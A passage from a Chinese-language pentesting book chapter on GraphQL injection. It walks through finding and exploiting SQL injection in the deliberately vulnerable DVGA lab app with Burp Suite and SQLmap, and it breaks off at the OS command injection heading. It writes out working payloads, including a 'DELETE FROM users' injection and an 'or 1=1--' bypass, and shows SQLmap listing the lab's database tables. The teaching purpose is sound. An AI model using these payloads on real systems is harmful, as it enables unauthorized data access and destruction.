# 第八章：注入


客户端与 API 的交互方式多种多样，例如创建、修改或删除数据。当应用程序必须处理这些任意输入时，问题就会出现。应用程序是否应该信任外部客户端发送的输入？内部客户端呢？

在本章中，你将了解注入漏洞，并发现为什么识别和保护由 GraphQL API 支持的应用程序的各个入口点至关重要，以及不这样做的后果。我们将识别影响应用程序逻辑并操控其执行未专门设计操作的机会。成功的注入可能导致从网页篡改到在数据库上执行代码的各种后果。

GraphQL 服务器通常与数据存储进行交互，如 MySQL 等关系型数据库、Elasticsearch 等文档数据库、Redis 等键值存储，甚至 Neo4j 等图形数据库。所有这些都可能受到基于注入的漏洞的影响。在本章中，我们将讨论三种类型的注入漏洞。一些漏洞，如 SQL 注入（SQLi）和操作系统命令注入，会影响后端服务，如服务器和数据库。另一类漏洞，XSS，会影响客户端。

## GraphQL 中的注入漏洞

注入漏洞发生在应用程序接受并处理未经信任的输入时，且没有进行任何清理操作。*清理*是一个安全措施，涉及检查输入并去除其中可能危险的字符。缺乏此类检查可能会导致输入被解释为命令或查询，并在客户端或服务器端执行。注入是一个广泛的攻击类别，可能影响网络生态系统，如操作系统、客户端浏览器、数据库、第三方系统等。

应用程序可能通过多种方式不小心引入注入漏洞，包括以下几种：

+   该应用程序没有对接收到的输入进行安全检查。

+   应用程序使用不安全的库（如解析器）处理用户输入。

+   该应用程序将接收到的用户输入传递给第三方系统，而该系统没有对输入进行安全检查。

+   应用程序接受输入并将其展示给客户端，而没有进行任何形式的转换。

实现 GraphQL API 的应用程序，在允许客户端通过查询、变更或订阅等接口操作数据后，可能会变得容易受到注入漏洞的攻击。即使是仅允许客户端读取数据的 GraphQL API，也可能在某些接口（如查询过滤器）中存在漏洞。虽然可以减少风险，但几乎不可能完全消除。

在构建 API 时，完全避免接受用户输入是很困难的。随着应用程序变得更加复杂，它将需要某种输入才能有用。例如，如果 Twitter 或 Facebook 不允许用户输入，那么它们将毫无意义。用户的操作，如发推文、在别人墙上写 Facebook 帖子，或上传晚餐照片到 Instagram，都需要用户输入。

### 恶意输入的影响范围

无论是来自人类客户端，还是来自网络上其他服务器等机器，都必须考虑输入可能是恶意的。即使是内部机器也可能被攻击并向其他服务器发送恶意输入。

应用程序通常在宽松的信任模型下开发。这样的信任模型假设来自同一网络的其他内部系统的输入是安全的，而来自外部来源的输入是不安全的。这种方法非常常见，但以这种方式设计系统可能会适得其反；如果我们能够攻击一个系统并向网络上的其他主机发送命令，就可以轻松横向移动到其他服务器。图 8-1 说明了一个类似的场景。



图 8-1: 网络信任边界

该图描述了一个渗透测试，在测试过程中，我们发现了一个面向互联网的 GraphQL API 服务器，称为*公共服务器*。该服务器是双重接入的，意味着它有两个网络接口，并且属于两个独立的网络。该服务器容易受到注入攻击，因为它没有充分检查来自客户端的传入查询。

现在，假设图中的*内部服务器*也是一个 GraphQL 服务器，设计时假定信任来自同一网络系统的任何传入查询。之所以如此配置，是因为它不面向互联网，安全架构师在其威胁模型中假定本地网络是安全的。然而，如果公共服务器被黑客攻击，攻击者可能会向内部服务器发送恶意查询。

这就是为什么始终对任何用户输入进行安全检查非常重要。也正是因为如此，黑客在发现允许输入的地方进行注入漏洞测试是至关重要的。

### OWASP Top 10

每隔几年，OWASP 会发布新的 Web 应用程序漏洞类别排名，作为*OWASP Top 10*项目的一部分，帮助公司将安全缓解工作集中在最常见的软件缺陷类别上。

注入漏洞类别已经连续近二十年出现在 OWASP Top 10 榜单中。在最新的 OWASP Top 10 发布中，注入漏洞排名第三，如表格 8-1 所示。

表格 8-1: OWASP Top 10

| **标识符** | **漏洞** |
| --- | --- |
| A01 | 访问控制破坏 |
| A02 | 加密失败 |
| A03 | 注入 |
| A04 | 不安全的设计 |
| A05 | 安全配置错误 |
| A06 | 脆弱和过时的组件 |
| A07 | 身份识别和身份验证失败 |
| A08 | 软件和数据完整性失败 |
| A09 | 安全日志记录和监控失败 |
| A10 | 服务器端请求伪造 |

OWASP 也开始在一个专门的项目中跟踪 API 中的顶级漏洞，*API 安全性前十*。这个划分有助于区分基于 API 和非 API 的漏洞。在截至本文撰写时的最新项目发布中，注入漏洞排在第八位，如 表 8-2 所示。

表 8-2：API 安全性前十

| **标识符** | **漏洞** |
| --- | --- |
| API1 | 对象级授权破坏 |
| API2 | 用户身份验证破坏 |
| API3 | 过度数据暴露 |
| API4 | 缺乏资源和速率限制 |
| API5 | 功能级授权破坏 |
| API6 | 批量赋值 |
| API7 | 安全配置错误 |
| API8 | 注入 |
| API9 | 不当的资产管理 |
| API10 | 日志记录和监控不足 |

注入漏洞在 API 中可能会带来灾难性的后果，因此，在进行渗透测试时，熟悉非 API 基于的 Web 应用程序和 API 中的注入测试非常重要。

## 注入表面

GraphQL API 通常设计为接受来自客户端的输入，执行如数据库读写等后台操作，并返回响应。

从技术上讲，你可以有只读查询，例如以下示例，这不会改变服务器端的任何内容。客户端不能通过查询传递任意数据，只能使用在 GraphQL 架构中定义的字段 `id` 和 `ipAddr`，你可能还记得它们在第三章中有提到：

```
query {
   pastes {
      id
      ipAddr
   }
}
```

如果应用程序没有设计为与客户端以允许修改服务器数据的方式进行交互，应用程序开发人员可以只进行只读操作，但实际上，这几乎从不会是这种情况。随着应用程序变得更加复杂和功能丰富，它们将需要通过查询参数、字段参数或两者来接受客户端输入。

让我们在深入探讨各种注入漏洞之前，考虑一些允许客户端传递任意输入的 GraphQL 组件。对于这些接口，你应该问自己一些重要的问题：

+   应用程序是否有验证传入的客户端输入？

+   应用程序是否接受危险字符？

+   应用程序是否在查询中发送意外字符时抛出异常？

+   GraphQL 是否检查传递给参数的值类型？

+   我们能否从 GraphQL 服务器响应（或带外响应）中推断出注入尝试是否成功？

注入测试需要一些反复试验，但一旦你突破了瓶颈，你会有一种非常满足的感觉。

### 查询参数

GraphQL 操作，如查询、变更和订阅，可以设计为接受参数。考虑以下查询，它传递了一个值为 `100` 的 `limit` 参数。虽然这个操作仍然是只读的，但它提供了一个接口，可以通过使用查询过滤器来操控服务器的响应：

```
query {
   pastes(**limit: 100**) {
      id
      ipAddr
   }
}
```

这个参数不允许我们执行代码，但我们可以利用它以各种方式影响服务器。例如，向一个 `Int` 类型的参数（如 `limit`）提供一个负值（如 `-1`），可能会导致意外的行为。有时候，API 会将 `-1` 的值解释为 *返回所有*，在这种情况下，服务器将返回整个对象列表。

当你识别出一个 `String` 类型的参数时，可能需要花一些时间尝试不同的注入载荷。考虑 列表 8-1 中的 GraphQL 变更，它使用了 `createPaste` 顶层字段。

```
mutation {
 createPaste(content: "Some content", title:"Some title", public: false) {
   paste {
    id
    ipAddr
   }
 }
}
```

列表 8-1：变更输入点

`createPaste` 字段非常直观；它接收来自客户端的信息，并利用这些数据在数据库中创建一个全新的粘贴。在这个示例中，客户端通过三个参数控制粘贴的格式：`content`、`title` 和 `public`。这些参数具有不同的类型。例如，`content` 和 `title` 是标量类型 `String`，而 `public` 是标量类型 `Boolean`。

想象一下，从数据库操作的角度看，粘贴创建操作可能是怎样的。考虑以下 SQL 示例：

```
INSERT INTO pastes (content, title, public)
VALUES ('some_malicious_content', 'some_title', false)
```

当客户端查询被 GraphQL API 接收时，服务器可能需要查找或写入数据库中的信息，以便满足查询。如果 GraphQL API 设计为处理诸如 `content` 和 `title` 等参数的输入，而没有适当的安全验证，数据可能会被直接注入到 SQL 命令中，这可能导致 SQL 注入漏洞。

考虑以下 SQL 注入示例，其中 SQL 命令被插入到 `content` 参数中：

```
mutation {
 createPaste(content: "**content'); DELETE FROM users; --**") {
   paste {
    id
    ipAddr
   }
 }
}
```

以这种方式构造的查询可以在后台转换为 SQL 查询，它可能如下所示：

```
INSERT INTO pastes (content) VALUES ('**content'); DELETE FROM users; --**
```

需要注意的是，GraphQL API 应该在查询解析器中有多层防御性检查，以减少各种形式的注入攻击。

### 字段参数

就像顶层字段一样，GraphQL 查询中的选择集字段也可以接受参数。考虑以下查询：

```
query {
  users {
    username(capitalize: true)
    id
  }
}
```

使用这个查询，我们可以返回用户的 ID 和用户名列表。默认情况下，响应中的 `username` 字段是小写的。添加 `capitalize` 参数并将其设置为 `true`，则 GraphQL 解析器会将用户名首字母大写。

字段参数可以被实现为在指定的字段中执行不同的操作，在安全上下文中，它们与其他参数（例如指令的参数）没有太大区别。传递给字段参数的值可以被插入数据库或影响逻辑。应用程序甚至可能将其作为不同内部 API 调用的一部分，因此在存在这些参数时进行测试非常重要。

### 查询指令参数

附加到某些 GraphQL 字段的查询指令也可以接受参数，通常是标量类型，如 `String` 和 `Boolean`。这些指令的使用方式完全依赖于实现，但检查它们允许客户端发送哪些类型的值始终是值得的。

考虑以下查询：

```
query {
  pastes {
    id
    ipAddr @show_network(style: "cidr")
  }
}
```

在这个示例中，我们为指令 `show_network` 指定了一个名为 `style` 的参数。`style` 参数的类型是 `String`，并且接受任意字符串。在此示例中，我们提供了 `cidr` 作为值。在后台，这将把 `ipAddr`（IP 地址）字段转换为使用 *无类域间路由（CIDR）* 标记法的地址。例如，IPv4 地址 192.168.0.1 将变为 192.168.0.1/32。

查询指令参数也可能容易受到注入攻击。攻击者可以利用这些参数来影响服务器返回特定字段的响应方式。例如，查询指令可能使用参数 `where`，然后该参数被转换为 SQL 匹配模式（例如，`LIKE` 操作符）。

你可以使用 清单 8-2 中显示的内省查询，通过使用 `__schema` 元字段和 `directives` 字段来仅获取可用的指令。

```
query GetDirectives {
  __schema {
    directives {
      name
      description
      locations
    }
  }
}
```

清单 8-2：用于列出指令的 GraphQL 内省查询

### 操作名称

*操作名称* 是我们可以添加到 GraphQL 操作中的字符串，例如查询、变更或订阅。它们通常用于在发送多个查询时唯一标识每个查询。像 GraphiQL Explorer 和 GraphQL Playground 这样的 GraphQL 图形化 IDE 使用操作名称作为一种方式，允许客户端在文档中存在多个查询时通过下拉菜单选择要执行的操作，如 图 8-2 所示。



图 8-2：在 GraphiQL Explorer 中基于操作名称执行选定的查询

操作名称也用于其他目的，如调试和日志记录。事实上，它们是有趣的潜在注入向量，因为应用程序可以以多种方式使用它们。例如，一些应用程序使用操作名称进行分析，以确定客户端最常使用的查询。操作名称字符串可能最终出现在不同的系统中，如日志系统、关系数据库、缓存数据库等。因此，检查 GraphQL API 是否允许将特殊字符作为操作名称的一部分是很重要的，因为这可能成为一个可注入的接口。

操作名称通常是字母数字的，但有些 GraphQL 服务器实现对其允许的字符类型比其他服务器更宽松。

## 输入入口点

在对 GraphQL API 进行注入测试时，我们需要找到一种方法来发现输入入口点。如果运气好且 introspection（自省功能）仍然启用，我们通常可以快速访问 API 支持的各种查询、变更和订阅，以及有关其类型、字段、参数等信息，使用像 Altair、GraphiQL Explorer 或 GraphQL Playground 这样的 GraphQL IDE 工具。

要在 Altair 中查看有关 DVGA 的信息，请将 URL 设置为 ***http://localhost:5013/graphiql***，然后点击位于右上角的 **保存** 按钮（磁盘图标）。点击保存按钮旁边的 **刷新** 按钮，然后点击 **文档**。你应该能看到查询、变更和订阅的部分。点击任意一项，查看每个部分中存在的参数类型，如 图 8-3 中的截图所示。



图 8-3：Altair 客户端中的架构文档

如果运气不好且服务器上禁用了 introspection，我们可以依赖像 Clairvoyance 这样的工具（我们在第六章中提到过），通过它重建架构并发现各种可用的输入。Clairvoyance 会对 GraphQL 文档的输入进行模糊测试，以发现其所有操作、字段、类型和参数，从而重建完整的架构视图，然后我们可以利用这个视图来识别所有可能的输入。

接下来，我们将通过对 DVGA 进行一些注入测试，探索在 GraphQL 世界中常见的注入类型。

## SQL 注入

*SQL 注入* 是最古老的漏洞类型之一。SQLi 漏洞发生在客户端输入没有经过适当的字符转义而直接插入 SQL 命令时。这种情况允许黑客关闭原本的 SQL 查询，并引入他们自己的 SQL 命令，从而有效地干扰应用程序与数据库之间的查询。

GraphQL API 中的 SQLi 漏洞可能带来灾难性的后果。完全或部分访问数据库可能导致以下任一后果：

+   **对数据完整性的影响。** 一个 SQLi 漏洞可能允许我们操控数据，例如修改数据库表中的数据。

+   **对数据保密性的影响。** SQLi 可能允许我们泄露数据库中的信息，无论是来自应用程序特定的 SQL 表，还是来自同一数据库中的其他表。这些信息可能包括个人身份信息（PII）、密码哈希、敏感令牌等。

+   **对数据可用性的影响。** SQLi 可能允许我们删除数据库的部分内容或完全删除表，导致数据丢失和应用程序不稳定。

近年来，现代 Web 框架在缓解 SQL 注入漏洞方面取得了更好的进展，通过提供现成的防御机制，如参数化查询。利用经过审计和验证的框架使开发人员能够通过使用框架内置的安全功能（如函数和库）编写更安全的代码。

### 了解 SQL 注入的类型

SQL 注入漏洞有两个类别，每个类别下都有一些子类别。

#### 经典 SQL 注入

当应用程序在注入测试期间返回 SQL 查询错误时，你就遇到了*经典 SQL 注入*。这些错误可以直接显示在网页上，或者通过网络检查显现出来。识别经典 SQL 注入漏洞使用两种技术：基于错误和基于联合。

*基于错误的 SQL 注入*是通过观察错误来识别 SQL 注入漏洞。那些在 SQL 查询执行失败时向客户端抛出 SQL 错误的应用程序可能会让我们找到正确的攻击模式，从而成功利用 SQL 注入漏洞。

*基于联合的 SQL 注入*是通过利用`UNION` SQL 操作符来识别 SQL 注入漏洞的。`UNION`用于连接多个`SELECT`语句的结果，然后将其返回给客户端。

#### 盲 SQL 注入

在*盲 SQL 注入*中，我们没有可见的迹象表明存在漏洞。应用程序可能会悄无声息地失败，或者将错误重定向到客户端以外的地方。有两种发现盲 SQL 注入漏洞的技术。

*基于时间的 SQL 注入*迫使应用程序在返回响应之前等待一段时间。通过提供一个 SQL 注入负载，指示数据库等待一定的秒数，我们可以推断如果返回最终响应时出现类似的延迟，则应用程序可能存在漏洞。

*基于布尔值的 SQL 注入*允许我们通过构造一个将返回布尔结果（如`true`或`false`）的负载来推断应用程序是否容易受到 SQL 注入攻击。通过使用这种测试技术，我们可以影响应用程序向客户端展示数据的方式，这帮助我们识别是否存在漏洞。

### 测试 SQL 注入

虽然 SQL 注入漏洞有所减少，但偶尔仍然可以发现。作为黑客，我们应假设我们正在测试的应用程序可能没有适当的控制措施来防止 SQL 注入，因此应在任何可能的地方和时间进行测试。

SQL 注入的测试可以通过多种方式进行，例如以下几种：

+   提交诸如单引号(`'`)或双引号(`"`)等字符，并观察应用程序如何处理意外的输入和错误。

+   模糊测试输入字段并观察可能表明数据库查询失败的应用程序错误。

+   提交 SQL 命令引入延迟，例如使用 MySQL 数据库的`BENCHMARK`和`SLEEP`，Microsoft SQL Server 的`WAITFOR` `DELAY`和`WAITFOR` `TIME`，或者 PostgreSQL 数据库的`pg_sleep`，然后进行响应时间分析，以判断注入是否成功。这在我们进行盲注测试时特别有用，因为应用程序错误对我们是不可见的。

SQL 注入（SQLi）可以通过任何接受客户端输入的接口在 GraphQL 中引入。在本节中，我们将通过使用 DVGA 来探索 GraphQL 中的 SQLi 示例。

### 使用 Burp Suite 对 DVGA 进行 SQLi 测试

在 GraphQL 中进行注入测试的第一步是找到我们可以修改查询的地方。我们可以从 Altair 中的模式文档开始查看。图 8-4 显示了查询部分。文档中还有变更和订阅部分，记得也要查看一下这些部分。



图 8-4：DVGA 中的查询

如你所见，我们有一些查询可以选择。现在我们需要优先考虑哪些区域进行重点关注。注意到一些字段，比如`systemUpdate`、`systemHealth`、`audits`和`deleteAllPastes`，这些字段不接受任何参数，因此我们最好专注于那些接受参数的字段。让我们重点查看`pastes`字段，它接受三个可选参数：

+   `public`，类型为`Boolean`

+   `limit`，类型为`Integer`

+   `filter`，类型为`String`

`filter`参数可能是 SQLi 测试的一个有价值的候选项，因为它接受字符串值，且其名称暗示它用于过滤结果。这个过滤可能涉及后台查询解析器逻辑，使用 SQL 操作，如 SQL 的`WHERE`运算符，以完成查询。

现在我们已经有了目标，接下来开始与 DVGA 交互并代理流量。通过 Kali 的**应用程序**菜单打开 Burp Suite，然后点击**打开浏览器**，在**代理**标签下打开内置浏览器并访问***http://localhost:5013***。应用加载后，确保 Burp Suite 处于**拦截**模式。接着，在 DVGA 的左侧边栏中导航到**Private Pastes**页面。你应该能看到一个类似于图 8-5 的 GraphQL 请求。



图 8-5：在 Burp Suite 中拦截 GraphQL 查询

如你所见，DVGA 使用 GraphQL 的`pastes`查询操作发送 HTTP POST 请求，以从 GraphQL API 服务器获取私人粘贴列表。

如果你切换到 WebSockets 历史记录标签，你会注意到 DVGA 也使用了订阅操作（图 8-6）。在此上下文中，订阅操作允许客户端通过订阅`pastes`事件，实时读取 API 中新创建的内容。

要更轻松地操作请求，可以通过右键单击请求窗口中的任意位置并点击**发送到重发器**，将请求发送到 Burp Suite 的 Repeater。然后点击**Repeater**标签查看捕获的请求。这允许你按需重放请求。

让我们修改查询，使其使用 `filter` 参数。首先，将查询修改为如下所示：

```
**query {**
 **pastes(filter:"My First Paste") {**
 **id**
 **content**
 **title**
 **}**
**}**
```



图 8-6：Burp Suite 中的历史 WebSocket 流量视图

请注意，当查询包含双引号时，我们必须在 Burp 中使用反斜杠（`\`）字符来转义引号，如图 8-7 所示。



图 8-7：使用 Burp Repeater 发送修改后的 GraphQL 查询

点击**发送**将查询发送到 GraphQL 服务器。响应此查询时，我们应收到一个符合我们过滤搜索模式的 paste。更具体地说，它匹配 `content` 字段：

```
"pastes": [
  {
 `--snip--`
    "title":"Testing Testing",
    "content":"My First Paste"
 `--snip--`
  }
]
```

这个过滤搜索模式表明在后台某处正在执行某种 SQL 查询，并且该查询的行为类似于以下内容：

```
SELECT id, content, title FROM pastes WHERE content LIKE 'My First Paste'
```

这个 SQL 查询将从 `pastes` SQL 表中返回 `id`、`content` 和 `title` 列。使用 `WHERE` 运算符，结果将被筛选，只返回内容中包含字符串 `My` `First` `Paste` 的 pastes 相关记录，正如 `LIKE` 运算符所定义的那样。

我们希望向应用程序输入一些字符，可能会破坏此查询并导致错误，这可能表明应用程序将我们的输入直接发送到查询中。例如，如果我们在搜索字符串后添加单引号（`'`），SQL 查询将中断，因为这会导致一个没有闭合单引号的孤立开头单引号。

让我们向 DVGA 发送以下查询，以查看我们收到的响应（注意添加了单引号）：

```
query {
 pastes(filter:"**My First Paste'**") {
    id
    content
    title
 }
}
```

在 Burp 中，修改请求，使其看起来像图 8-8 所示。GraphQL 应该返回一个通过 `errors` JSON 键包含应用程序错误的响应，揭示一些有趣的信息。



图 8-8：通过使用单引号与 Burp Suite 打破 SQL 查询

看起来我们的字符串导致 SQL 查询失效，因为它直接被注入到 SQL `LIKE` 搜索模式中。应用程序没有对我们引入的单引号进行转义，这使得我们能够完全破坏 SQL 查询。因此，SQLite（运行 DVGA 的 SQL 引擎）抛出错误，正如你在错误输出中的 `sqlite3.OperationalError` 字符串所看到的。

所以，我们认为我们发现了一个 SQLi 漏洞。现在怎么办？我们可以通过修改 SQL 查询，例如将其更改为返回所有 pastes，来检查是否能够从数据库中获取更多信息：

```
 query {
  pastes(filter:"My First Paste' or 1=1--") {
    title
    content
  }
}
```

现在，GraphQL 在解析传入的 GraphQL 查询后查询数据库时使用的 SQL 语句可能如下所示：

```
SELECT id, content, title FROM pastes WHERE content LIKE '**My First Paste' or 1=1—-'**
```

通过添加一个单引号，我们在 `My` `First` `Paste` 过滤模式后立即结束了 SQL `LIKE` 操作符。然后，我们可以通过添加 `1=1` 比较，插入一个 `or` 条件，使 SQL 查询始终为真。我们使用 SQL 中的注释双破折号（`--`）语法来结束 SQL 查询，从而注释掉查询末尾的单引号，确保尽管修改了查询，我们的语法依然有效。

图 8-9 显示了 Burp Suite 中这个 SQLi 查询的样子及其结果。



图 8-9：使用 Burp Suite 成功的 SQL 注入

服务器响应包含 DVGA 数据库中的所有粘贴！这是一个基于布尔值的 SQLi 示例。

### 自动化 SQL 注入

其他工具尝试自动化 SQLi 漏洞的检测。特别是，SQLmap 可以通过针对各种数据库引擎（如 MySQL、PostgreSQL、SQLite 等）定制的负载，帮助模糊测试 GraphQL API。

在进行 SQLi 测试时，你可以取任何潜在的 GraphQL 查询，并使用星号（`*`）标记一个特定位置，指示 SQLmap 应该注入负载。例如，考虑以下代码片段：

```
query {
  pastes(filter:"test*****") {
     id
  }
}
```

在这个示例中，SQLmap 会用它的 SQLi 负载数据库中的条目替换星号。

SQLmap 可以从文件读取完整的 HTTP 请求。我们可以将任何 HTTP 请求输入到 SQLmap 中，SQLmap 会读取查询并用它来执行 SQL。图 8-10 显示了如何在 Burp Suite 中将请求保存到文件。右键点击请求窗口中的任何位置，选择 **复制到文件**。将文件命名为 *request.txt* 并保存。



图 8-10：将 HTTP 请求从 Burp Suite 保存到文件

接下来，通过使用 `-r`（请求）参数来运行 SQLmap，指定文件。将目标数据库引擎参数（`--dbms`）设置为 `sqlite`。通过提供数据库引擎名称，我们将执行的测试数量缩小到相关的子集，从而加快注入测试的过程。清单 8-3 显示了如何运行命令。

```
# sqlmap -r request.txt —dbms=sqlite —tables

[14:30:53] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] **Y**

JSON data found in POST body. Do you want to process it? [Y/n/q] **n**

[14:30:55] [INFO] testing connection to the target URL
it is recommended to perform only basic UNION tests if there is not at least one
other (potential) technique found. Do you want to reduce the number of requests? [Y/n] **Y**

[14:30:57] [INFO] testing 'Generic UNION query (NULL) — 1 to 10 columns'
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the
others (if any)? [y/N] **N**

Parameter: #1* ((custom) POST)
    Type: UNION query
    Title: Generic UNION query (NULL) — 1 column
    Payload: {"query":"query getPastes {\n        pastes(filter:\"test' UNION ALL
SELECT CHAR(113,122,98,122,113)||CHAR(102,90,76,111,106,97,117,117,105,113,101,121,
72,117,112,87,114,99,114,65,99,86,84,120,72,69,115,122,120,77,121,119,122,103,108,
116,87,100,114,82)||CHAR(113,122,98,98,113),NULL,NULL,NULL,NULL,NULL,NULL,
NULL—bGJM\") {\n          id\n          title\n          content\n
ipAddr\n          userAgent\n          owner {\n            name\n
}\n          }\n        }"}
```

清单 8-3：SQLmap 成功注入的输出

SQLmap 会通知我们它找到了星号标记（`*`），并询问是否要处理它。输入 `Y`。工具接着表示它在 *request.txt* 文件中找到了 JSON 数据，并询问是否应将其解释为 JSON。输入 `N`，因为 GraphQL 语法可能会干扰 SQLmap。接下来，工具建议减少请求数量，仅使用基本的 `UNION` 测试。输入 `Y`。测试发现我们的参数是脆弱的，因此输入 `N`，指示 SQLmap 不再执行其他测试。工具还高亮显示了导致成功注入的负载。

现在我们可以使用 `--tables` 参数收集数据库信息，该参数将列出 DVGA 中的数据库表，如 清单 8-4 所示。

```
# sqlmap -r request.txt --dbms=sqlite --tables

[14:34:05] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[5 tables]
+------------+
| audits     |
| owners     |
| pastes     |
| servermode |
| users      |
+------------
```

清单 8-4：使用 SQLmap 列出 DVGA 数据库中的表

正如你所看到的，我们已经返回了 DVGA 中各个组件的表格。做得好！我们能够手动和自动识别出 SQL 注入漏洞。

## 操作系统命令注入

